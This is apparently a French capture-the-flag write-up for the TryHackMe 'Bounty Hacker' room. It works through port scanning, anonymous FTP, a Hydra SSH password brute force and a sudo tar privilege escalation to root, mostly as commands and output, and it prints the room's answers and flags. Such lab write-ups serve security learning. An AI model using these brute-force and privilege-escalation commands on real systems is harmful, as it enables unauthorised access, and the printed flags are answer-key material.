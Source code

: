 # THM - Bounty Hacker
<p align="center">
  <img width="300" height="" src="./img/logo.jpeg">
</p>

Description | Difficulté | Lien
-------------|------------|-----
You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! | Easy 🟢| [THM](https://tryhackme.com/room/cowboyhacker)

Énumération de port :
```txt
nmap -A <ip>
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-03 12:29 EDT
Nmap scan report for <ip>
Host is up (0.029s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:<ip>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.29 seconds
```

Rien d'intéressant sur le port 80.
En allant sur le serveur FTP, on se rend compte qu'on peut se connecter en anonyme, mais que l'on ne peut pas lister le contenu du dossier à cause du mode "Passive"

En le désactivant, on arrive à voir la liste des fichiers accessible :
```log
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

Le fichier ``locks.txt`` est un dictionnaire de mot. Le fichier ``task.txt`` contient les éléments suivant :
```txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
On découvre l'utilisateur ``lin`` que nous allons tenter de brute force  avec le dictionnaire de mot ``locks.txt``

> **Note**
> Première question : Who wrote the task list? ``lin``

> **Note**
> Deuxième question : What service can you bruteforce with the text file found ? ``ssh``

On essaye donc avec Hydra:
```bash
hydra -l lin -P ~/THM/Bounty\ hacker/locks.txt <ip> ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-03 12:39:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://<ip>:22/
[22][ssh] host: 10.10.36.172   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-03 12:39:17
```
> **Note**
> Troisième question : What is the users password ? ``RedDr4gonSynd1cat3``

On se connecte avec le mot de passe trouvé et on affiche le premier flag user.

> **Note**
> Quatrième question : user.txt ``THM{CR1M3_SyNd1C4T3}``

En regardant les droits sudo de l'utilisateur ``lin,`` on voit qu'elle peut lancer ``/bin/tar`` en root. Grâce au site internet [Gtfobin](https://gtfobins.github.io/gtfobins/tar/) on voit qu'avec la commande suivante on pourra être root :
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

On est root et l’on récupère le flag.
> **Note** 
> Cinquième question : root.txt ``THM{80UN7Y_h4cK3r}``